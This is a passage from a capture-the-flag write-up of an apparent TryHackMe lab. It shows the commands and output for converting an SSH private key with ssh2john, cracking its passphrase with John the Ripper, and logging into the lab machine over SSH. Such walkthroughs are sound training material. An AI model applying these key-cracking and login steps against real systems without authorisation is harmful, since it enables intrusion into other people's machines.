 # Exploit

## Ssh2John

We use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) to make it readable to [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh2john key > pass.hash    
```

## John The Ripper

Now we can use [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) to crack the hash :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ john  pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
letmein          (key)     
1g 0:00:00:00 DONE 2/3 (2025-07-20 18:24) 33.33g/s 30866p/s 30866c/s 30866C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Now we can use this password to access .
## SSH

I gave the secretKey file the right permissions in a way that I had full access to read and modify the file, while all other users (group members and others) have no access.

`chmod 600 key`

I then logged in to machine via ssh using john as the user and the identity file key :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ ssh -i key john@10.10.141.254
Enter passphrase for key 'key': letmein
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 20 16:28:54 UTC 2025

  System load:  0.0               Processes:           100
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 34%               IP address for ens5: 10.10.141.254
  Swap usage:   0%


```